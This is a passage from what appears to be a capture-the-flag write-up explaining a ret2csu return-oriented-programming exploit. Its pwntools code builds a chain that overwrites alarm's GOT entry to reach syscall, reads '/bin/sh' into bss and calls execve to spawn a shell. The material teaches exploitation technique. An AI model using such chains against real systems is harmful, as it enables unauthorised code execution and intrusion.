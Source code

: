 First pass with _ret2csu_.  This will call `read(stdin,got_address_of_alarm,read 1 byte)`.  When this executes, `read` will _read_ one byte and store it at the address of `alarm` in the GOT overwriting its LSB.

```python
# now put /bin/sh in bss
# set up regs
payload += p64(pop_rbx_rbp_r12_r13_r14_r15)
payload += p64(0) # rbx
payload += p64(1) # rbp to get pass check
payload += p64(0) # r12 -> edi this will be edi stdin for read
payload += p64(binary.bss()) # r13 -> rsi pointer to bss
payload += p64(0x3b) # r14 -> rdx (/bin/sh\0) + padding to get rax = 0x3b for syscall
payload += p64(binary.got.read) # pointer to read

# this will call read to read /bin/sh\0 into bss now
payload += p64(set_rdx_rsi_rdi_call_r15)
payload += 7 * p64(0) # add rsp,0x8, 6 pops at end
```

Second pass with _ret2csu_.  Assuming that `alarm` is `syscall`, we want to setup for `execve`, but first we need to _read_ in the string `/bin/sh\0` to memory.

Above, `read` will be used again, but this time to _read_ from stdin the string `/bin/sh\0` + padding for a total of `0x3b` bytes.  This will yield two benefits, first, we will have the string `/bin/sh` in memory for `execve`, and second, `rax` will be set to `0x3b`, which is the syscall number for `execve`.

> We're just using the BSS section for this scratch space.

```python
# rest of payload assume alarm -> syscall, call execve
# set up regs
payload += p64(pop_rbx_rbp_r12_r13_r14_r15)
payload += p64(0) # rbx
payload += p64(1) # rbp to get pass check
payload += p64(binary.bss()) # r12 -> edi this will be rdi
payload += p64(0) # r13 -> rsi
payload += p64(0) # r14 -> rdx
payload += p64(binary.got.alarm) # pointer to syscall

# this will call execve
payload += p64(set_rdx_rsi_rdi_call_r15)
payload += 7 * p64(0) # add rsp,0x8, 6 pops at end
```

Third pass with _ret2csu_.  Call <strike>`alarm`</strike>, I mean `syscall` with `0x3b` in `rax` for `execve`, then followed by `execve` parameters, pointer to string `/bin/sh`, `0`, and `0`.

That is it.  Payload complete.  This will give us a shell IFF `alarm` was successfully converted to `syscall`.

> I know the above is a bit verbose and I could have used the 7 pops at the end to populate the registers for the next _ret2csu_ and built a more streamlined chain, but I had 0x200 bytes to work with, so I was lazy.  (If there's an `exploit2.py` in this repo, then look at that for a streamlined chain version.)
